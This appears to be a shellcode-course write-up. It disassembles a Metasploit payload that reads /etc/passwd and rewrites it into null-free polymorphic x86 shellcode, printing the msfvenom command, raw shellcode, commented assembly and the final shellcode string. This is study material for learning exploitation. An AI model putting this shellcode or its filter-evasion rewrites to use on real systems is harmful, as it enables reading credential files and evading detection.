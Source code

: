 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.



## Disassembled (UPDATED)

Here I have cleaned and commented the code, as well as put it in a .nasm format.

I noticed there were a lot of null bytes in the shellcode generated from msfvenom, so my polymorphic code revolves around removing those null bytes.

The first substitution I made is replacing an `xor` with a `sub` to zero out the `ecx` register. Note that this strategy may not work with all CPUs.

```x86asm
; xor ecx,ecx     ; replace xor instruction
sub ecx,ecx
```

Next, the original shellcodes does the jmp, call, pop technique to get a pointer to a string. The string is the filename to be read. In this case, I want to remove null bytes from my shellcode, thus I will push values to the stack and move the stack pointer into my register. To push the string terminating null, I will load the string "/etc//passwd" onto the stack and get a pointer to it's address.

```x86asm
; pop ebx         ; <addr> 0x3D (filename from stack)
xor ebx, ebx
push ebx
push 0x64777373         ; "dwss"
push 0x61702f2f         ; "ap//"
push 0x6374652f         ; "cte/" 
mov ebx, esp
```

Note that I have pushed an entire dword of `0x00000000` to the stack as a string terminator by the `push ebx` instruction. Interestingly, I tried to rewrite this to push only a single `0x0` to the stack. I ended up with this code that will essentially load a `0xff` into `ebx` that will be shifted out for a null and placed onto the stack as a null terminator.

```x86asm
mov ebx, 0x647773ff  
shr ebx, 0x8
push ebx
push 0x7361702f         
push 0x6374652f         

mov ebx, esp
```

Unfortunately, this is an extra byte in length than the alternative solution above, so I opted not to use it. But it was fun to work with the `shr` instruction and get another polymorphic variation working.

Then, I change the `mov, 0x3` with an `xor` to clear the register and `mov al, 0x3` to move the value of 3 into the register without having zeros in the shellcode.

```x86asm
; mov eax,0x3     ; read()
xor eax, eax
mov al, 0x3
```

Similar to the above strategy, I remove a `mov edx, 0x1000` with a `mov dh, 0x10` to remove nulls in the shellcode and have the same result.

```x86asm
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
```

I again use the same trick as before to replace the `mov eax, 0x4` instruction:
   
```x86asm
; mov eax,0x4     
xor eax, eax
mov al, 0x4 
```
   
And again with ebx. Except this time since I need a value of 1 in the register, I will use the `inc` instruction to increment it after setting it to 0x0.

```x86asm
; mov ebx,0x1     ; 1 = stdout (where to write output)
xor ebx, ebx
inc ebx
```

I do the same thing for the eax register later in the assembly code.

```x86asm
; mov eax,0x1 
xor eax, eax
inc eax
```

I then replace a `mov ebx, 0x0` with an `xor` to remove null bytes in this instruction.

```x86asm
; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
xor ebx, ebx
```

And that's it for the changes.

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the final `.asm` code. I have left the instructions I replaced commented out.

```x86asm
global _start

section .text
_start:
    ;mov eax, 0x5
    push 0x5
    pop eax


    ; pop ebx         ; <addr> 0x3D (filename from stack)
    xor ebx, ebx
    push ebx
    push 0x64777373         ; "dwss"
    push 0x61702f2f         ; "ap//"
    push 0x6374652f         ; "cte/" 
    mov ebx, esp

    ; xor ecx,ecx     ; replace xor instructions
    sub ecx,ecx
    int 0x80        ; call open() 

    mov ebx,eax     ; ebx now holds file descriptor

    ; mov eax,0x3     ; read()
    xor eax, eax
    mov al, 0x3
                    ; man 2 read
                    ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     
    mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
    int 0x80        ; call read()

    mov edx,eax     ; edx holds number of bytes returned from read()

    ; mov eax,0x4     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 4$"
    xor eax, eax
    mov al, 0x4 
                    ; write()
                    ; man 2 write
                    ; ssize_t write(int fd, const void *buf, size_t count);
    ; mov ebx,0x1     ; 1 = stdout (where to write output)
    xor ebx, ebx
    inc ebx

    int 0x80        ; call write() 
                    ; NOTE: ecx still points to stack (buffer to write)

    ; mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
    xor eax, eax
    inc eax

                    ; man exit
                    ; void exit(int status);
    ; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
    xor ebx, ebx

    int 0x80        ; call exit()
```

## New Shellcode

```c
"\x6a\x05\x58\x31\xdb\x53\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x29\xc9\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe7\x89\xf9\xb6\x10\xcd\x80\x89\xc2\x31\xc0\xb0\x04\x31\xdb\x43\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80"
```


## Conclusion

Metasploit payload was 73 bytes with nulls.

My new shellcode is 59 bytes without nulls.